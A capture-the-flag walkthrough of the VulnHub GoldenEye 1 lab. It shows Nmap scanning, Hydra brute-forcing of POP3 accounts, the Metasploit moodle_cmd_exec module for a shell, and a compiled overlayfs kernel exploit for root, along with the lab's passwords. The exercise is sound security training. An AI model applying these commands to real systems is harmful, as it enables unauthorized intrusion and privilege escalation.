#**GoldenEye1** 
https://www.vulnhub.com/entry/goldeneye-1,240/

**level:** Intermediate

**Penetrating Methodologies:**

- Network scanning (Nmap)
- Surfing HTTP web services
- Fetched Encoded password
- Decoding (Burp suite)
- Brute-Force (Hydra)
- Connecting to pop3 (Netcat)
- Extracting password
- Adding domain Name (/etc/host)
- Exploring Domain Name over browser
- Brute-force (Hydra)
- Login to Server
- Exploiting Moodle (Metasploit)
- Kernel post Exploit (overlayfs)
- Capture the flag

**Let's start**

I started with simple nmap of the target to scan all open port. In my case, the IP address was 192.168.0.162.
1. $nmap -p- -A 192.168.0.162 --open



Our service scan identified an HTTP server running on port 80; so I explored target IP in the web browser. From here I got some clue for login page **/sev-home/** as you can see in the image above.

After that i went to check on its source code which lead me to another clue. Here i clicked on the **terminal.js** .



The terminal.js is used to put up the html code, I read the comment section and its gave me hint on a password which was encoded and two username; _**Boris**_ and _**Natalia**_ . pretty simple **:)**

I copied the above code and placed it on google search; upon finding this is what I obtain "**Invincible Hack3r**" **;D**
 ~~p/s: you can use HTML entities decoder to decode this~~
 
 
 
Browsing through the webpage showed that it has a pop3 service running and from early enumeration, there is two open port that currently running which were port 55006 and 55007. Hmm, that might be the pop3 service mention in this website. So i used nmap  version scan for them and found ssl/pop3 for 55006 and pop3 for 55007 along their version. woala, just as I suspected.

 
 
So after getting two usernames I applied brute-force for each users attack with help of following command:
1. $hydra -l boris -P /usr/share/wordlists/fasttrack.txt -f 192.168.0.162 -s 55007 pop3

 

That was it; **secret1!** for **boris** Now let's try to brute force **natalya**.

 
 
The password captured: **bird** for **natalya** as shown in the image. I should've guessed that. 
1. nc 192.168.0.162 55007

Afterward I accessed the pop3 mail using netcat command and found three messages in **boris** account while two messages in **natalya** account.



Ignored the fourth message ;D here is my finding that could gave me hints on the next step.

>Username: xenia

>Password: RCP90rulez!

>Domain name: /severnaya-station.com/

>Server directory: /gnocertdir

From the information above i need to point out my ip (adding domain name) in the **/etc/hosts** configuration file so that i can use the internal server and direct to server directory mention above.



Woala, its moodle cms. This could lead to something. Lets login with the credential captured in **natalya** message. 

Now on further digging , exploring all the side tabs on the page. I discovered a message between Xenia and **"Doak"** inside a message box ; perhaps a _(new user)_



Ok lets fire up hydra and brute force this user to fetch the password!

1. hydra -l doak -P /usr/share/wordlists/fasttrack.txt -f 192.168.0.162 -s 55007 pop3

Bingo! the password for **doak** is **goat**. Now further reading the message, i acquired a username and password.

> Username: dr_doak
> Password: 4England!



Using the credentials i went back to the domain login page. It wont take me long to noticing **my private files** in the navigation section of the page and I saw a **s3cret.txt** file in it.



Inspecting the .txt file, It gave me the path for jpg image.

Going to that path directory, I got this image!

It took me a while (a whole day :D) to realize this .jpg image is really a "s3cret" thanks to **@mucomplex** for pointing it.

1. wget http://severnaya-station.com/dir007key/for-007.jpg
2. strings for-007.jpg



A base64 encoded line, lets check its

1. echo eFdpbnRlcjE5OTV4IQ== | base64 -day

revealed me a password **xWinter1995x!**. Trying this password with admin user, took me to administrator page. At this moment, i run metasploit console and search for moodle modules and found a single module in my kali machine. 



This could be used to popping a shell from the target **:D**. Setting up the module and run the exploit. However it doesnt work,hahaha.



Looking into the source code of the module i found **TinyMCE HTML editor** and with the help of google. I found a plugin exactly like this one and i changed **Spell** engine to **PSpellShell** and saved the changes made.



Now its time to run the metasploit again with the help of this command

1.use exploit/multi/http/moodle_cmd_exec

2.msf exploit(moodle_cmd_exec) > set rhost severnaya-station.com

3.msf exploit(moodle_cmd_exec) > set targeturi /gnocertdir

4.msf exploit(moodle_cmd_exec) > set username admin

5.msf exploit(moodle_cmd_exec) > set password xWinter1995x!



yeahh!! now i succesfully got a command shell session 1. As i love the meterpreter session, so i upgrade it into meterpreter shell.

**session -u 1**

Using sysinfo, i enumerated its kernel and focused on Linux 3.13 and if u familiar with the kernel u will find post exploit for  Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) – **‘overlayfs‘**
Local Priv Escalation



**searchsploit linux 3.13**

with the hellp of gcc i compile it as shell inside /root directory. Then upload the compiled shell file into victim's machine via meterpreter and run it. However, i got an error !!!!



I saw an error message stated that gcc compiler is not currently installed. So to solve this i find alternative program to gcc and found cc as alternative of it.

By making change into the original file 37292.c on line 143, i replaced gcc to cc and compiled it again with cc.

> cc 37292.c -o ayam

Upload it with meterpreter

> upload /root/ayam

> shell

> chmod 777 ayam

> ./ayam



Booom!!! i got root access succesfully

Now lets finish this task by capturing flag in the root /directory



directing to that link, i got this web page **:D**

https://github.com/mucomplex/3l173Gh057/blob/master/participant/mreiaz/GoldenEye1/Images/28.JPG

###MREIAZ###

 

